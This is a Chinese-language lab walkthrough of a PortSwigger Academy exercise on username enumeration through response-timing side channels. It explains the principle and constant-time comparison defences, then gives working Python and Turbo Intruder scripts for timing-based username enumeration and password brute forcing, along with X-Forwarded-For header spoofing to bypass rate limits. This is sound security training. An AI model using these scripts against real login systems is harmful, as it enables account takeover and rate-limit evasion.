



## 案例七：PortSwigger Academy高级Web安全挑战——时间侧信道攻击实战

### 7.1 背景介绍

#### 7.1.1 PortSwigger Academy平台概述

PortSwigger Academy（https://portswigger.net/web-security）是由Burp Suite开发商PortSwigger公司维护的免费Web安全学习平台，是目前业界公认最权威的Web安全实战训练平台之一。其核心优势包括：

| 优势维度 | 具体说明 |
|---------|---------|
| **分级体系** | Apprentice（学徒）→ Practitioner（实践者）→ Expert（专家）三级难度，覆盖从入门到精通的完整学习路径 |
| **真实场景** | 所有实验均基于真实漏洞环境（Docker容器），非模拟器或理论推演，每个实验实例独立且有效期1小时 |
| **内容深度** | 涵盖SQL注入、XSS、CSRF、SSRF、文件上传、认证机制等20+主题类别，每个主题含理论讲解和多个递进实验 |
| **工具集成** | 实验设计与Burp Suite深度集成，是学习Web安全工具的最佳实践环境 |
| **辅助资源** | 官方Cheat Sheet、视频教程、论坛社区形成完整的学习支撑体系 |
| **免费且持续更新** | 所有内容免费开放，PortSwigger团队持续跟踪最新漏洞趋势（如OAuth零日、JWT攻击新向量）并更新实验 |

与其他训练平台的对比：

| 对比维度 | PortSwigger Academy | HackTheBox | TryHackMe | DVWA |
|---------|-------------------|------------|-----------|------|
| 定位 | Web安全专精 | 综合渗透测试 | 综合渗透入门 | 遗留漏洞演示 |
| 难度分级 | 三级（含Expert） | 无系统分级 | 引导式分级 | 无分级 |
| 实验深度 | 极深（单一漏洞多角度） | 中等 | 较浅 | 浅 |
| 工具要求 | Burp Suite为核心 | 通用渗透工具 | 通用渗透工具 | 无特定工具 |
| 学习路径 | 按漏洞类型系统化 | 按机器难度递进 | 按房间线性引导 | 无路径 |
| 实验环境 | 云端Docker | 云端VPN | 云端/本机 | 本机Docker |

#### 7.1.2 Expert级别挑战的意义

完成PortSwigger Academy的Expert级别实验，意味着学习者已经达到了以下能力水平：

- **漏洞理解深度**：不再满足于"知道有这个漏洞"，而是能分析漏洞产生的根本原因（代码层面、架构层面、设计层面）
- **业务逻辑分析**：能够独立分析复杂的业务逻辑漏洞，理解安全控制在业务流程中的薄弱环节
- **自动化能力**：具备编写自定义脚本辅助渗透测试的能力，能根据具体场景定制攻击工具
- **防御原理理解**：理解安全编码和防御机制的底层原理，能判断现有防御是否真正有效
- **攻击链思维**：能够将多个低危漏洞串联形成高危攻击链

本文选取的"Authentication"模块中"Username enumeration via response timing"实验，是一个典型的Expert级别挑战，考察的是**时间侧信道攻击（Timing Side-Channel Attack）**——这一主题在传统渗透测试教程中较少涉及，但在真实渗透测试和Bug Bounty中具有极高的实用价值。

#### 7.1.3 实验参与者概况

小王是一名Web安全研究者，具备以下知识储备：

- 已完成PortSwigger Academy所有Apprentice和Practitioner级别的实验
- 熟悉Burp Suite的基本操作（Proxy、Repeater、Intruder）
- 理解HTTP协议、认证机制、会话管理等基础知识
- 具备基础的Python编程能力（能使用requests库发送HTTP请求，理解线程池和统计学基础概念）
- 正在向企业级渗透测试工程师方向进阶

小王的前序学习路径：

```text
Apprentice级（基础漏洞认知）
├─ SQL注入基础、XSS基础、CSRF基础...
└─ 理解每种漏洞的触发条件和利用方式
    │
Practitioner级（工具运用与组合攻击）
├─ 绕过WAF的SQL注入、存储型XSS利用...
├─ Burp Suite Inrtuder/Repeater深度使用
└─ 能独立完成中等复杂度的渗透测试任务
    │
Expert级（深度分析与创新方法）
├─ 时间侧信道攻击 ← 本文主题
├─ 业务逻辑漏洞、认证绕过高级技巧
└─ 自定义脚本、统计学分析、防御机制分析
```

---

### 7.2 核心原理：时间侧信道攻击

#### 7.2.1 侧信道攻击概念

侧信道攻击（Side-Channel Attack）是指攻击者利用系统的**非功能性特征**来获取敏感信息的一类攻击手法。与传统的直接攻击（如SQL注入、XSS）不同，侧信道攻击不直接破解加密算法或绕过认证机制，而是通过观察系统的**物理或时间特征**来推断信息。

这一概念最早由密码学家Paul Kocher在1996年提出，他证明了可以通过分析加密运算的执行时间来恢复密钥。此后，侧信道攻击发展成为一个庞大的攻击类别：

| 侧信道类型 | 利用特征 | 典型场景 | 攻击难度 | 实用性 |
|-----------|---------|---------|---------|-------|
| **时间侧信道** | 响应时间差异 | 用户名枚举、密码验证、加密比较 | ★★☆☆☆ | ★★★★★ |
| 功耗侧信道 | 设备功耗变化 | 加密密钥提取（SPA/DPA攻击智能卡） | ★★★★☆ | ★★★☆☆ |
| 电磁侧信道 | 电磁辐射 | CPU指令分析、密钥提取 | ★★★★★ | ★★☆☆☆ |
| 缓存侧信道 | 缓存命中/未命中 | Meltdown、Spectre漏洞利用 | ★★★★★ | ★★★★☆ |
| 声音侧信道 | 键盘/打印机声音 | 物理环境键盘记录 | ★★★☆☆ | ★☆☆☆☆ |
| 错误信息侧信道 | 错误提示差异 | 用户名枚举（经典版）、SQL注入推断 | ★☆☆☆☆ | ★★★★★ |
| 渠道侧信道 | HTTP/2流优先级 | 网页内容推断 | ★★★★★ | ★★☆☆☆ |

**时间侧信道攻击**（Timing Attack）是其中最经典也最容易实施的一种。在Web安全领域，它具有以下独特优势：

- **无需特殊工具**：只需测量HTTP响应时间，curl/Python即可实施
- **隐蔽性强**：单次请求看起来完全正常，难以被IDS/WAF检测
- **适用范围广**：几乎所有涉及比较操作的场景都可能存在时间侧信道
- **可自动化**：容易编写脚本批量测试

#### 7.2.2 时间差异的产生机制

在Web认证场景中，时间差异通常来源于服务端代码的**不同执行路径**。以下是一个典型的认证逻辑及其产生的时间差异：

```text
用户提交登录请求 (POST /login)
  │
  ▼
步骤1：查询数据库检查用户名是否存在
  │
  ├─ 用户名不存在 → 直接返回"用户名或密码错误"
  │   [执行路径: 1次DB查询 + 1次字符串拼接]
  │   预期耗时: ~50-150ms
  │
  └─ 用户名存在 → 继续步骤2
       │
       ▼
步骤2：获取存储的密码哈希，验证密码
  │   [执行路径: 1次DB查询 + 1次密码哈希计算 + 1次比较]
  │
  ├─ 密码错误 → 返回"用户名或密码错误"
  │   预期耗时: ~400-1000ms
  │
  └─ 密码正确 → 生成Session → 返回302重定向
      预期耗时: ~500-1200ms
```

**关键洞察**：当用户名不存在时，服务器在步骤1就返回了结果，跳过了步骤2的密码验证。密码验证通常涉及以下耗时操作：

- **密码哈希计算**：bcrypt每轮约100ms（cost factor=12时），Argon2的内存填充操作
- **额外数据库查询**：获取用户记录的详细信息
- **会话管理**：生成Session Token、写入数据库/Redis

这种时间差虽然通常只有几百毫秒，但通过精确测量和统计分析，可以被攻击者利用来判断用户名是否存在。

**实际时间差异的来源示例（bcrypt场景）**：

```python
import bcrypt, time

password = b"wrong_password"
# 用户不存在时：不调用bcrypt，直接返回
# 用户存在时：调用bcrypt.checkpw()

# 模拟两种路径的时间差异
start = time.time()
# 路径1：仅DB查询（用户名不存在）
# db_query("SELECT id FROM users WHERE username = ?", "nonexistent")
elapsed_short = time.time() - start  # ~5ms

start = time.time()
# 路径2：DB查询 + bcrypt验证（用户名存在）
hash_val = bcrypt.hashpw(password, bcrypt.gensalt(rounds=12))
elapsed_long = time.time() - start  # ~250ms

print(f"时间差异: {(elapsed_long - elapsed_short)*1000:.0f}ms")  # ~245ms
```

#### 7.2.3 恒定时间比较 vs 非恒定时间比较

理解时间侧信道攻击的关键在于区分两种字符串比较方式。这一区别不仅影响认证安全，更涉及到所有涉及敏感数据比较的场景。

**非恒定时间比较（Vulnerable）**：

```python
# Python示例：逐字符比较，一旦发现不匹配立即返回
def verify_password_vulnerable(input_pwd: str, stored_pwd: str) -> bool:
    """
    漏洞版本：短路求值导致执行时间与匹配长度成正比
    攻击者可以通过逐字符枚举完全恢复密码
    """
    if len(input_pwd) != len(stored_pwd):
        return False  # 长度不同，立即返回（可被利用来推断密码长度）
    
    for i in range(len(input_pwd)):
        if input_pwd[i] != stored_pwd[i]:
            return False  # 提前返回！匹配越多名符，耗时越长
        time.sleep(0.05)  # 人为延迟放大差异（仅演示用）
    return True
```

这种实现方式中，匹配的字符越多，执行时间越长。攻击者可以通过以下方式逐字符恢复密码：

```text
尝试 "a" + 填充 → 耗时 T1
尝试 "b" + 填充 → 耗时 T2
...
尝试 "s" + 填充 → 耗时 T5 (最长，说明第一位是 's')
已知第一位是 's'，尝试 "sa" + 填充 → 耗时 T6
...依此类推，逐位恢复完整密码
```

**恒定时间比较（Secure）**：

```python
import hmac
import hashlib

def verify_password_secure(input_pwd: str, stored_hash: str) -> bool:
    """
    安全版本：无论输入如何，执行时间恒定
    原理：比较所有字节后才返回结果，不使用短路求值
    """
    input_hash = hashlib.sha256(input_pwd.encode()).hexdigest()
    # hmac.compare_digest 内部实现：
    # 1. 对两个字符串的所有字节执行异或
    # 2. 累积OR结果（不使用短路）
    # 3. 最后返回累积结果是否为0
    return hmac.compare_digest(input_hash, stored_hash)
```

各语言的恒定时间比较函数对比：

| 语言 | 安全函数 | 底层原理 | 备注 |
|------|---------|---------|------|
| Python | `hmac.compare_digest(a, b)` | 逐字节异或+累积OR | Python 3.3+ |
| Java | `MessageDigest.isEqual(a, b)` | 逐字节异或+累积OR | JDK 1.6+ |
| Node.js | `crypto.timingSafeEqual(a, b)` | 逐字节异或+累积OR | 需确保长度相同 |
| PHP | `hash_equals(a, b)` | 逐字节异或+累积OR | PHP 5.6+ |
| Go | `subtle.ConstantTimeCompare(a, b)` | 逐字节异或+累积OR | crypto/subtle |
| Ruby | `Rack::Utils.secure_compare(a, b)` | 逐字节异或+累积OR | Rack 1.5+ |
| Rust | `constant_time_eq(a, b)` | 逐字节异或+累积OR | ring crate |
| C (OpenSSL) | `CRYPTO_memcmp(a, b, len)` | 逐字节异或+累积OR | OpenSSL 1.0.2+ |

**常见错误用法（看似安全实则不安全）**：

```python
# 错误1：使用 == 比较（Python的字符串比较虽然对短字符串是恒定时间的，
# 但对长字符串使用memcmp，可能在首个不同字节处提前返回）
if input_hash == stored_hash:  # 不可靠！
    return True

# 错误2：只比较部分字节
if input_hash[:16] == stored_hash[:16]:  # 前缀比较更不安全
    return True

# 错误3：先比较长度再比较内容
if len(input_hash) == len(stored_hash) and input_hash == stored_hash:  # 长度泄露
    return True
```

#### 7.2.4 本实验的特殊性

PortSwigger设计的这个Expert级别实验，其巧妙之处在于三个层面的设计：

**设计精妙点1：利用代码路径差异而非逐字符比较**

通常时间侧信道攻击用于逐字符枚举密码（利用字符串比较函数的短路行为）。但本实验利用的是"用户名是否存在"导致的不同代码路径的时间差——这在实际Web应用中更为常见，也更难被开发者意识到。

**设计精妙点2：需要规避限流机制**

大量请求会触发IP封禁，因此需要伪造`X-Forwarded-For`头。这考察了攻击者对HTTP协议和反向代理机制的理解——不仅要会利用漏洞，还要能绕过防御。

**设计精妙点3：需要统计学思维**

单次请求的时间测量存在网络抖动干扰，需要多次请求取平均值或中位数，并使用统计学方法判断差异是否显著。这将攻击从"凭感觉"提升到"凭数据"的层面。



---

### 7.3 实验环境搭建

#### 7.3.1 访问实验

1. 登录PortSwigger Academy网站（https://portswigger.net/web-security）
2. 导航路径：Authentication → 其他认证机制 → Username enumeration via response timing
3. 点击"Access the lab"获取实验实例URL
4. 每个实验实例是独立的Docker容器，有效期为1小时（超时后需重新启动）
5. 实验目标：通过时间侧信道枚举有效用户名，然后暴力破解密码

> **提示**：PortSwigger Academy会根据你的学习进度推荐实验，建议先完成Authentication模块的所有Apprentice和Practitioner级实验再挑战此实验。

#### 7.3.2 工具准备

**必需工具**：

| 工具 | 版本要求 | 用途 | 获取方式 |
|------|---------|------|---------|
| **Burp Suite Professional/Community** | 2023+ | Web代理、抓包、重放 | portswigger.net/burp |
| **浏览器** | Chrome/Firefox | 配置代理访问实验 | 已有 |
| **Python 3** | 3.8+ | 编写自动化脚本 | python.org |

**推荐扩展**：

| 扩展名称 | 用途 | 安装方式 |
|---------|------|---------|
| **Turbo Intruder** | 自定义扫描逻辑，支持Python脚本 | BApp Store |
| **Logger++** | 详细记录请求/响应时间 | BApp Store |
| **Jython Standalone** | Turbo Intruder的Python运行环境 | 下载jython-standalone.jar |

**浏览器代理配置**：

```text
代理服务器: 127.0.0.1
端口: 8080
勾选: "为所有协议使用相同代理"
```

建议使用FoxyProxy等浏览器扩展快速切换代理开关。

#### 7.3.3 环境验证

在开始实验前，先确认环境正常工作：

```bash
# 1. 验证实验环境可达
curl -s -o /dev/null -w "HTTP状态码: %{http_code}\n总耗时: %{time_total}s\n" \
  "https://YOUR_LAB_ID.web-security-academy.net"

# 预期输出：HTTP状态码: 200，总耗时: < 1s

# 2. 验证登录页面功能正常
curl -s "https://YOUR_LAB_ID.web-security-academy.net/login" | grep -i "login"

# 3. 验证Burp Suite代理正常（通过代理发送请求）
curl -x http://127.0.0.1:8080 -I "https://YOUR_LAB_ID.web-security-academy.net"

# 4. 测试限流机制是否存在（连续发送3次快速请求）
for i in {1..3}; do
  curl -s -w "请求${i}: %{http_code} (%{time_total}s)\n" \
    -X POST "https://YOUR_LAB_ID.web-security-academy.net/login" \
    -d "username=test&password=test"
done
```

---

### 7.4 实验完整过程

本实验的攻击流程分为四个阶段，总计约30-60分钟完成：



#### 7.4.1 阶段1：通过Burp Suite Intercept抓取登录请求

1. 打开Burp Suite，确认Proxy → Intercept处于开启状态
2. 浏览器访问实验实例的登录页面
3. 输入任意凭据（如`test:test`）并提交
4. Burp Suite截获请求，观察请求结构
5. 右键选择"Send to Intruder"发送到攻击模块

抓取到的POST请求大致如下：

```http
POST /login HTTP/1.1
Host: YOUR_LAB_ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=YOUR_SESSION_TOKEN
Connection: close
Content-Length: 30

username=test&password=test
```

**关键观察点**：

- 请求方法：POST，数据通过body发送
- 认证方式：基于Session Cookie的表单认证
- 响应类型：需要关注响应状态码、响应长度、响应时间三个维度

#### 7.4.2 阶段2：配置Burp Suite Intruder进行用户名枚举

**Intruder配置步骤**：

**1. 选择攻击模式：Sniper**

Sniper模式允许在同一请求中标记多个payload位置，适合本场景（同时替换用户名和伪造IP）。

**2. 标记Payload位置**

```yaml
POST /login HTTP/1.1
Host: YOUR_LAB_ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=YOUR_SESSION_TOKEN
X-Forwarded-For: §192.168.1.1§

username=§test§&password=password123
```

- Position 1（用户名）：`§test§`
- Position 2（IP伪造）：`§192.168.1.1§`

**3. Payload Set 1 — 用户名列表**

使用PortSwigger提供的常见用户名列表，同时加入实验中可能存在的用户名：

```text
admin
administrator
user
test
guest
root
carlos
wiener
peter
joe
```

**4. Payload Set 2 — X-Forwarded-For IP伪造**

由于实验有IP限流机制（同一IP每分钟只能发送有限数量的请求），需要为每个请求伪造不同的源IP：

```python
# 使用Burp Intruder的Payload Processing规则生成IP
# 或者预先准备一个IP列表文件
ips = [f"192.168.{i//256}.{i%256}" for i in range(1, 256)]
```

**5. 资源池配置（关键）**

在Intruder的"Resource pool"选项卡中：

| 设置项 | 推荐值 | 原因 |
|--------|--------|------|
| Maximum concurrent requests | **1**（串行） | 保证时间测量准确性 |
| Minimum delay between requests | **200ms** | 避免触发限流 |
| Use HTTP/2 | **取消勾选** | HTTP/2多路复用影响时间测量 |
| Timeout | **30000ms** | 足够等待所有响应 |

> **为什么必须串行请求？**
> 并行请求会导致服务器负载波动、网络排队延迟等干扰因素，使得响应时间差异淹没在噪声中。串行请求虽然耗时更长，但测量精度更高。对于时间侧信道攻击，**精度永远优于速度**。

#### 7.4.3 阶段3：分析响应时间差异

执行Intruder攻击后，按"Response received"列排序查看结果：

| 用户名 | 响应时间 | 状态码 | 响应长度 | 推断 |
|--------|---------|--------|---------|------|
| test | 142ms | 200 | 3124 | 用户名不存在 |
| user | 138ms | 200 | 3124 | 用户名不存在 |
| guest | 151ms | 200 | 3124 | 用户名不存在 |
| root | 145ms | 200 | 3124 | 用户名不存在 |
| joe | 148ms | 200 | 3124 | 用户名不存在 |
| peter | 153ms | 200 | 3124 | 用户名不存在 |
| carlos | 347ms | 200 | 3124 | 待确认（可能存在延迟波动） |
| wiener | 389ms | 200 | 3124 | 待确认（可能存在延迟波动） |
| admin | 421ms | 200 | 3124 | 待确认（可能存在延迟波动） |
| **administrator** | **892ms** | **200** | **3124** | **用户名有效！（显著延迟）** |

**关键观察点**：

1. **`administrator`的响应时间（892ms）与其他用户（~150ms）存在约5倍差距**——这是一个极其明显的信号，单次测量已可初步判断
2. **`carlos`、`wiener`、`admin`也显示了一定程度的延迟（300-400ms）**——这可能是网络抖动或服务器负载导致的噪声，需要进一步统计确认
3. **所有请求的响应长度完全相同（3124字节）**——说明服务器返回了相同的错误页面，错误信息侧信道已被修复，只有时间侧信道可用
4. **所有请求的状态码均为200**——不存在通过状态码判断的可能性

> **为什么响应长度相同很重要？**
> 如果不同用户名返回不同长度的响应（如"用户不存在"页面比"密码错误"页面短），攻击者可以直接通过响应长度判断，无需时间测量。本实验的安全设计消除了这个简单的判断路径，迫使攻击者使用时间侧信道。

#### 7.4.4 阶段4：统计学确认（多次采样）

为了排除网络延迟的随机干扰，对可疑用户名进行多次采样，使用统计学方法确认：

```python
#!/usr/bin/env python3
"""
Username enumeration via timing - 统计学验证脚本
通过多次采样和统计检验确认时间差异的显著性
"""

import requests
import time
import statistics
import sys

TARGET = "https://YOUR_LAB_ID.web-security-academy.net/login"
SAMPLES = 20  # 每个用户名采样次数
DELAY_BETWEEN = 0.5  # 请求间隔（秒），避免触发限流

def get_session():
    """获取实验session"""
    s = requests.Session()
    # 如果需要先访问登录页获取CSRF token等
    s.get(TARGET.replace("/login", "/login"))
    return s

def measure_response_time(session, username, samples=SAMPLES):
    """对同一用户名发送多次请求，记录每次响应时间"""
    times = []
    for i in range(samples):
        data = {"username": username, "password": "password123"}
        # 每个请求使用不同的伪造IP，避免被限流
        headers = {
            "X-Forwarded-For": f"192.168.{i}.{hash(username) % 255 + 1}"
        }
        try:
            start = time.time()
            response = session.post(TARGET, data=data, headers=headers,
                                     timeout=15, allow_redirects=False)
            elapsed = (time.time() - start) * 1000  # 转换为毫秒
            times.append(elapsed)
        except requests.exceptions.RequestException as e:
            print(f"  [!] 请求失败: {e}")
        
        time.sleep(DELAY_BETWEEN)
    
    return times

def remove_outliers(times, percentile=10):
    """移除异常值（最高和最低的指定百分位）"""
    if len(times) < 5:
        return times
    times_sorted = sorted(times)
    n_remove = max(1, int(len(times) * percentile / 100))
    return times_sorted[n_remove:-n_remove]

def analyze_timing(username, times):
    """分析单个用户名的时间数据"""
    cleaned = remove_outliers(times)
    mean = statistics.mean(cleaned)
    median = statistics.median(cleaned)
    stdev = statistics.stdev(cleaned) if len(cleaned) > 1 else 0
    return mean, median, stdev

def main():
    session = get_session()
    
    # 第1步：建立基线（使用一个确定不存在的用户名）
    print("=" * 60)
    print("步骤1：建立基线（确定不存在的用户名）")
    print("=" * 60)
    baseline_user = "nonexistentuser_" + str(int(time.time()))
    baseline_times = measure_response_time(session, baseline_user)
    baseline_mean, baseline_median, baseline_stdev = analyze_timing(baseline_user, baseline_times)
    print(f"  基线用户: {baseline_user}")
    print(f"  均值: {baseline_mean:.1f}ms | 中位数: {baseline_median:.1f}ms | "
          f"标准差: {baseline_stdev:.1f}ms")
    print(f"  样本数: {len(baseline_times)} | "
          f"范围: {min(baseline_times):.1f}ms - {max(baseline_times):.1f}ms")
    
    # 第2步：测试候选用户名
    candidates = ["administrator", "admin", "carlos", "wiener", "user", "root"]
    results = []
    
    print("\n" + "=" * 60)
    print("步骤2：测试候选用户名")
    print("=" * 60)
    
    for user in candidates:
        times = measure_response_time(session, user)
        mean, median, stdev = analyze_timing(user, times)
        
        # 使用2σ法则判断：如果均值超过基线均值+2倍基线标准差
        threshold = baseline_mean + 2 * baseline_stdev
        is_likely_valid = mean > threshold
        margin = mean - baseline_mean
        
        results.append({
            "username": user,
            "mean": mean,
            "median": median,
            "stdev": stdev,
            "valid": is_likely_valid,
            "margin": margin
        })
        
        status = "✓ 可能有效" if is_likely_valid else "✗ 不存在"
        print(f"  {user:20s} | 均值={mean:7.1f}ms | 中位数={median:7.1f}ms | "
              f"差异={margin:+.1f}ms | {status}")
    
    # 第3步：总结
    print("\n" + "=" * 60)
    print("步骤3：总结")
    print("=" * 60)
    valid_users = [r for r in results if r["valid"]]
    if valid_users:
        best = max(valid_users, key=lambda x: x["mean"])
        print(f"  [!] 最可能的有效用户名: {best['username']} "
              f"(均值={best['mean']:.1f}ms, 比基线高{best['margin']:.1f}ms)")
    else:
        print("  [-] 未发现显著时间差异，尝试更多候选用户名")

if __name__ == "__main__":
    main()
```

> **统计学原理**：使用2σ（两个标准差）法则，如果目标用户的平均响应时间超过基线用户平均响应时间加上两倍基线标准差，则可以约95%的置信度认为该用户存在。在实际渗透测试中，通常使用3σ（99.7%置信度）作为判定标准以降低误报率。对于本实验，由于时间差异足够大（5倍差距），2σ已足够。

#### 7.4.5 阶段5：密码暴力破解

确认`administrator`为有效用户名后，进入密码破解阶段：

**使用Burp Suite Intruder**：

1. 新建Intruder请求，设置`username=administrator`（固定）
2. 设置`password=§§`为payload位置
3. 加载密码字典（推荐从SecLists项目获取：`SecLists/Passwords/Common-Credentials/top-1000.txt`）
4. 添加Grep Match规则：匹配"Login successful"或"Welcome"等关键词
5. 保持X-Forwarded-For伪造以绕过限流
6. 设置资源池为串行，间隔200ms

**使用Python脚本自动化**：

```python
#!/usr/bin/env python3
"""
密码暴力破解脚本 - Username enumeration via response timing
"""

import requests
import time
import sys

TARGET = "https://YOUR_LAB_ID.web-security-academy.net/login"
USERNAME = "administrator"
PASSWORD_LIST = "/path/to/password_list.txt"  # SecLists top-1000 或自定义

# 登录成功的判断条件
SUCCESS_INDICATORS = [
    "Login successful",
    "Welcome",
    "My Account",
]

def try_password(session, password, attempt_num):
    """尝试单个密码"""
    data = {"username": USERNAME, "password": password.strip()}
    # 每个请求使用不同的伪造IP
    ip = f"10.0.{attempt_num // 256}.{attempt_num % 256}"
    headers = {"X-Forwarded-For": ip}
    
    try:
        start = time.time()
        response = session.post(TARGET, data=data, headers=headers,
                                 timeout=10, allow_redirects=False)
        elapsed = (time.time() - start) * 1000
        
        # 判断登录成功的方式：
        # 1. 302重定向（登录成功通常会重定向到dashboard）
        if response.status_code == 302:
            location = response.headers.get("Location", "")
            if "dashboard" in location or "my-account" in location:
                return password.strip(), True, f"302→{location} ({elapsed:.0f}ms)"
        
        # 2. 响应体包含成功标志
        for indicator in SUCCESS_INDICATORS:
            if indicator in response.text:
                return password.strip(), True, f"Found '{indicator}' ({elapsed:.0f}ms)"
        
        return password.strip(), False, f"{elapsed:.0f}ms"
    
    except requests.exceptions.RequestException as e:
        return password.strip(), False, f"Error: {e}"

def main():
    # 加载密码字典
    try:
        with open(PASSWORD_LIST, "r", encoding="utf-8", errors="ignore") as f:
            passwords = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"[-] 密码字典未找到: {PASSWORD_LIST}")
        print("    请下载: wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-1000.txt")
        sys.exit(1)
    
    print(f"[*] 目标: {TARGET}")
    print(f"[*] 用户名: {USERNAME}")
    print(f"[*] 密码字典: {len(passwords)} 个密码")
    print(f"[*] 开始暴力破解...\n")
    
    session = requests.Session()
    found = False
    
    for i, pwd in enumerate(passwords, 1):
        password, success, detail = try_password(session, pwd, i)
        
        if success:
            print(f"\n{'='*50}")
            print(f"[+] 找到密码: {password}")
            print(f"[+] 详情: {detail}")
            print(f"[+] 尝试次数: {i}/{len(passwords)}")
            print(f"{'='*50}")
            found = True
            break
        else:
            # 每50个密码打印一次进度
            if i % 50 == 0:
                print(f"[*] 已尝试 {i}/{len(passwords)} 个密码...")
        
        # 控制请求频率，避免触发限流
        time.sleep(0.3)
    
    if not found:
        print(f"\n[-] 已尝试全部 {len(passwords)} 个密码，未找到正确密码")
        print("[-] 建议：尝试更大的密码字典（如 rockyou.txt 的子集）")

if __name__ == "__main__":
    main()
```

#### 7.4.6 阶段6：登录验证

获取到正确的用户名和密码后，登录系统完成实验：

1. 在Burp Suite Repeater中构造登录请求：
```http
POST /login HTTP/1.1
Host: YOUR_LAB_ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=YOUR_SESSION_TOKEN

username=administrator&password=FOUND_PASSWORD
```

2. 发送请求，观察响应：应返回302重定向到`/my-account`
3. 在浏览器中使用找到的凭据登录
4. 成功登录后，页面显示完成弹窗，实验状态变为"Solved"

> **实验验证方法**：在PortSwigger Academy的实验页面顶部，如果实验已被成功解决，会显示绿色的"Congratulations, you solved the lab!"提示。

---

### 7.5 进阶技术：Turbo Intruder自动化

Burp Suite内置Intruder适合快速测试，但Turbo Intruder提供了更高的灵活性和更精细的控制。Turbo Intruder使用Python脚本（通过Jython运行），可以实现完全自定义的攻击逻辑。

#### 7.5.1 Turbo Intruder安装与配置

1. 在Burp Suite中打开Extender → BApp Store
2. 搜索"Turbo Intruder"并安装
3. 下载Jython Standalone JAR（如果尚未安装）
4. 在Extender → Options → Python Environment中配置Jython路径
5. 重启Burp Suite

#### 7.5.2 完整Turbo Intruder脚本

```python
# turbo_intruder_timing.py
# 在Burp Suite的Turbo Intruder扩展中运行
# 功能：通过时间侧信道枚举有效用户名

import time

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,      # 串行连接
                           requestsPerConnection=1,       # 每连接1个请求
                           pipeline=False,                # 禁用HTTP管道化
                           maxRetriesPerRequest=3)        # 失败重试3次
    
    # 用户名列表
    usernames = [
        "admin", "user", "test", "guest", "root",
        "administrator", "carlos", "wiener", "peter", "joe",
        "tomcat", "oracle", "mysql", "postgres", "sa"
    ]
    
    for i, username in enumerate(usernames):
        # 构造请求，标记payload位置
        # Position 1: 用户名
        # Position 2: X-Forwarded-For IP
        ip = f"10.0.{i // 256}.{i % 256 + 1}"
        engine.queue(target.req,
                     [username, ip],
                     label=username)
        
        # 控制请求速率，避免触发限流
        time.sleep(0.2)

def handleResponse(req, interesting):
    table.add(req)
    
    if req.response is None:
        table.add(req, "No response received")
    else:
        response_time = req.response_time  # 毫秒
        
        # 标记响应时间异常的请求
        if response_time > 500:
            table.add(req, f"!!! SLOW: {response_time}ms → 可能有效用户")
        elif response_time < 100:
            table.add(req, f"Fast: {response_time}ms → 可能不存在")
```

#### 7.5.3 Turbo Intruder vs 内置Intruder对比

| 特性 | 内置Intruder | Turbo Intruder |
|------|-------------|----------------|
| 编程语言 | 无（GUI配置） | Python (Jython) |
| 并发模型 | BIO（阻塞I/O） | NIO（非阻塞I/O） |
| 速度 | 中等 | 更快（NIO优势） |
| 灵活性 | 有限（Payload类型固定） | 完全可编程 |
| 请求控制 | 基础（资源池配置） | 精细（连接池、重试、管道化） |
| 实时监控 | 基础表格 | 自定义标记和分析 |
| 适用场景 | 快速简单测试 | 复杂逻辑、大规模测试 |
| 学习曲线 | 低 | 中（需要Python基础） |

---

### 7.6 防御机制与绕过技术

#### 7.6.1 本实验涉及的防御绕过技术

**IP限流绕过（X-Forwarded-For欺骗）**：

许多Web应用使用IP地址来限制请求频率，但错误的配置会信任客户端可控的请求头。以下是一系列可能被信任的IP相关请求头：

```python
# 伪造IP相关请求头的多种方式
# 不同的Web框架/代理可能读取不同的头
ip_headers = {
    "X-Forwarded-For": "192.168.1.1",    # 最常见
    "X-Real-IP": "192.168.1.1",          # Nginx常用
    "X-Client-IP": "192.168.1.1",        # Apache
    "X-Remote-IP": "192.168.1.1",        # 部分框架
    "X-Originating-IP": "192.168.1.1",   # 部分框架
    "Forwarded": "for=192.168.1.1",       # RFC 7239标准格式
    "True-Client-IP": "192.168.1.1",     # Akamai CDN
    "CF-Connecting-IP": "192.168.1.1",   # Cloudflare
}
```

**X-Forwarded-For的工作原理与信任链**：



> **防御建议**：应在反向代理层面处理IP限流，而非应用层面。Nginx配置示例：
> ```nginx
> # 在反向代理层设置真实的客户端IP
> proxy_set_header X-Real-IP $remote_addr;
> proxy_set_header X-Forwarded-For $remote_addr;  # 覆盖而非追加
